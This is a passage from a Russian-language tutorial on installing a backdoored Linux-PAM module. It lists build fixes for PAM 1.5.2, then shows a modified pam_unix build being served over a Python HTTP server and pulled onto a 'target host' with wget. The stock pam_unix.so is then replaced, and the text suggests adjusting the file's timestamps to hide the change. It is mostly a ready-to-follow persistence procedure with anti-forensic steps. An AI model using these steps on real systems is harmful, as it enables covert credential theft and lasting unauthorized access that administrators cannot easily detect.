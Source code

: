 Также хочу отметить, что при компиляции я столкнулся с рядом проблем:  
1. `Fatal error: rpc/rpc.h: No such file or directory`

Фикс:

```
apt install libntirpc-dev
dpkg -L libntirpc-dev
```

2. `In file included from /usr/include/tirpc/rpc/rpc.h, from yppasswd_xdr.c error: unknown type name 'int32_t'`

Фикс:

В файле yppasswd_xdr.c подключаем

```
#include <stdint.h>
```

3. `In file included from /usr/include/tirpc/rpc/rpc.h, from yppasswd_xdr.c error: unknown type name 'u_int32_t'`

Фикс:

В файле /usr/include/tirpc/rpc/types.h меняем `u_int32_t` на `uint32_t`

#### 4. Заменяем "стандарт" на свой

Итак, после того, как мы изменили файл pam_unix_auth.c, необходимо закинуть на целевой хост папку с PAM'ом

```
tar -zcvf temp.tar.gz Linux-PAM-1.5.2
```

```
python3 -m http.server
```

```
wget http://ip:8000/temp.tar.gz
```

Далее, делаем действия из пункта **3**.

После этого, распаковываем файл и заменяем его:

```
tar -xvf temp.tar.gz
```

```
mv Linux-PAM-1.5.2/modules/pam_unix/.libs/pam_unix.so /lib/x86_64-linux-gnu-security
```

Также стоит дать нужные права и поменять временные метки файла:

```
chmod 644 pam_unix.so
```

